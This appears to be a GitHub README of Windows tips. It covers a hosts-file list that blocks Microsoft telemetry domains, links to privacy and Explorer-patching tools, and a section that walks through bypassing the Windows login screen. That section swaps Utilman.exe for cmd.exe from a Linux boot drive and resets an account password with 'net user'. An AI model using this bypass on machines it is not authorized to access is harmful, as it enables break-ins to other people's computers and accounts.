 # Windows Tricks
Guide on certain things Windows

![Wondows-11-Start-661424496](https://github.com/martinjrrr/windows-tricks/assets/91160845/ba9bde7e-cc04-427b-af04-5b11bc566f03)

_______________________________________________________________________________

# Cracking a windows password / bypassing the login screen

Boot Into Your Flash Drive And Type These Commands

`fdisk -l`

`mount -t ntfs /dev/(windows drive) /mnt`

`cd /mnt/Windows/System32`

`cp cmd.exe Utilman.exe`

reboot

Click On The Accesibility Button And Type This Command When The CMD Window Lauches

`net user (User) *` 

## If you try to mount the Windows drive and get an error of hibernation just use the command:

`sudo ntfsfix /dev/sdXY`

ITS POSSIBLE THAT THIS COMMAND CORRUPTS THE WINDOWS FILESYSTEM, KNOW THE POSSIBLE CONSEQUENCES BEFOREHAND 
________________________________________________________________________________

# Anti-Spyware Tool

https://www.oo-software.com/de/shutup10

Kill Spyware and unnecesary bloat in Windows using this utility

make sure that you read trough your selections, this tool can temporarily block key system functions / settings

________________________________________________________________________________

# Host file sinkholing Spyware

    127.0.0.1 localhost
    ::1 localhost
    127.0.0.1 data.microsoft.com
    127.0.0.1 msftconnecttest.com
    127.0.0.1 azureedge.net
    127.0.0.1 activity.windows.com
    127.0.0.1 bingapis.com
    127.0.0.1 msedge.net
    127.0.0.1 assets.msn.com
    127.0.0.1 scorecardresearch.com
    127.0.0.1 edge.microsoft.com
    127.0.0.1 data.msn.com


# Windows 10 Functionality and Patches for Windows 11

[https://github.com/valinet/ExplorerPatcher](Explorer Patcher)

